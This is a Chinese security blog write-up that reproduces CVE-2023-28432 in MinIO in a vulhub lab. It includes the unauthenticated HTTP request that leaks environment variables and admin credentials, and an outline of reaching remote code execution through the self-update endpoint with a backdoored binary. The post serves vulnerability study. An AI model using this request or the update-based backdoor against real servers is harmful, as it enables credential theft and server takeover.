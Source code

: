 ```yaml
---
title: MinIO信息泄漏漏洞分析
date: 2023-04-02 11:36:00
updated: 2023-04-02 18:15:00
tags: [security,web]
description: 对CVE-2023-28432漏洞的复现、分析与利用
---
```




> 参考文章：
>
> https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ
>
> https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
>
> 漏洞比较新，很多师傅也写了博客记录了自己的尝试，很多地方可能写的不是特别明确，这里也结合了一些自己的思考去尝试分析。

## 漏洞复现

> 可以用vulhub上配好的docker文件来起漏洞环境

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20230401222111087](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401222111087.png)

得到账号密码`minioadmin/minioadmin-vulhub`

![image-20230401222515539](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401222515539.png)

可以成功登陆后台

MinIO后台如何RCE我们后面再说，先看一看漏洞的成因

## 漏洞分析

有漏洞版本的代码

![image-20230401230547112](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401230547112.png)

在集群模式下会注册`/minio/bootstrap/v1/verify`这个路由

```go
// minio/cmd/bootstrap-peer-server.go
func (b *bootstrapRESTServer) VerifyHandler(w http.ResponseWriter, r *http.Request) {
  ctx := newContext(r, w, "VerifyHandler")
  cfg := getServerSystemCfg()
  logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
}

// minio/cmd/bootstrap-peer-server.go
func getServerSystemCfg() ServerSystemConfig {
  envs := env.List("MINIO_")
  envValues := make(map[string]string, len(envs))
  for _, envK := range envs {
    // skip certain environment variables as part
    // of the whitelist and could be configured
    // differently on each nodes, update skipEnvs()
    // map if there are such environment values
    if _, ok := skipEnvs[envK]; ok {
      continue
    }
    envValues[envK] = env.Get(envK, "")
  }
  return ServerSystemConfig{
    MinioEndpoints: globalEndpoints,
    MinioEnv:       envValues,
  }
}
```

而根据这部分代码，由于此路由没有鉴权，请求接口就会返回环境变量。MinIO启动时会从环境变量中读取预设的管理员账号密码，所以环境变量中存在管理员账号。如果没有预设，那么就是默认的账号密码。

因此从攻击角度来说，这个信息泄漏会导致无论是否预设，都能拿到账号密码登陆。

![image-20230401230255122](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401230255122.png)

再看一下修复方案，也是把账号密码等从接口中移除回显，同时增加了对于接口的鉴权部分。

## 漏洞利用

### 通过自更新完成RCE

> 参考：
>
> https://y4er.com/posts/minio-cve-2023-28432/
>
> https://github.com/AbelChe/evil_minio

MinIO是Go写的项目，语言本身缺乏动态特性，不过有意思的是后台具备自更新功能，可以利用这个功能运行恶意二进制文件完成RCE。

在`/minio/admin/v3/update?updateURL={updateURL}`这个路由的功能中，可以从远程加载二进制文件，下载并更新。

具体可以利用minio的cli客户端工具，进行更新

![image-20230402110448794](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230402110448794.png)

但是如果是一个伪造好的恶意二进制文件，运行后minio的服务就宕机了，这里可以参考`https://github.com/AbelChe/evil_minio`项目，思路是魔改minio，添加一个后门路由来完成不破坏原有服务，完成RCE的工作。